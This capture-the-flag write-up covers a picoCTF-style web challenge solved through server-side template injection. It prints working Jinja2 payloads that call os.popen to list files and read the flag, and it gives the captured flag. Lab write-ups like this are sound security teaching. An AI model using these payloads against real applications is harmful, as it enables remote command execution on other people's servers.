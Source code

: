 In this challenge, we are given a website that states "I built a cool website that lets you announce whatever you want!".

Upon writing something in the input box and submitting it, the website displays the text that was entered. This is a classic example of a Server-Side Template Injection (SSTI) vulnerability.

Using the payload `{{7*'7'}}`, the website displays `7777777`. This confirms that the website is using either Jinja2 or Twig as its templating engine.

I found a list of payloads for SSTI [here](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti). There didn't seem to be much input validation or sanitization, as the few payloads I tried all allowed me to execute commands.

I first used `{{ namespace.__init__.__globals__.os.popen('ls').read() }}`, which listed:
```
__pycache__ 
app.py 
flag 
requirements.txt
```

I then used `{{ namespace.__init__.__globals__.os.popen('cat flag').read() }}` to get the flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}`.